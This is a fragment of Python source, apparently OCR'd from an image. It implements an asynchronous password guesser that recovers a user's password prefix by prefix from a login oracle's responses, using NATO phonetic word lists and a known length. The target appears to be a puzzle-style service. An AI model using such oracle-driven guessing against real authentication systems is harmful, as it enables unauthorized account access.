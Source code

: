 ```python
                future.set_result(False)
            elif resp == "_":
                future.set_result(True)
            elif resp == "1":
                future.set_exception(SuccessfulConnection(password))


class GuesserAsync:
    def __init__(self, loader: Loader, user: str):
        self.loader = loader
        if ":" in user:
            self.user, max_len = user.split(":")
            self.max_len = int(max_len)
        else:
            self.user = user
            self.max_len = None
        log.debug(f"Init: user={user!r}")
        self.guesses = 0
        self.loader.add_guesser()

    async def check(self, password):
        log.debug(f"Check: {password}")
        loop = asyncio.get_running_loop()
        future = loop.create_future()
        self.loader.submit(self.user, password, future)
        return await future

    async def guess_words(self, words, password: str = ""):
        for word in words:
            test = password + word
            if await self.check(test):
                return test
        else:
            return None

    async def guess_words_smart(self, words, password: str = "", round=None):
        if len(words) < 3:
            return await self.guess_words(words, password)
        first_letters = Counter(word[0] for word in words).most_common()

        # Silly optimizations
        if self.max_len is not None:
            current = len(password)
            delta = self.max_len - current
            if round == 3:
                pass
                first_letters = Counter(
                    word[0]
                    for word, next_word in product(words, nato_phonetic)
                    if len(word + next_word) == delta
                ).most_common()
            elif round == 4:
                words = [word for word in words if len(word) == delta]

        if first_letters[0][1] == 1:
            return await self.guess_words(words, password)
        first_letters_s = [letter for letter, cnt in first_letters if cnt > 1]
        new_s = await self.guess_words(first_letters_s, password)
        if new_s is None:
            new_words = [word for word in words if word[0] not in first_letters_s]
            assert len(new_words) > 0
            return await self.guess_words_smart(new_words, password, round=round)
        words = [word[1:] for word in words if word[0] == new_s[-1]]
```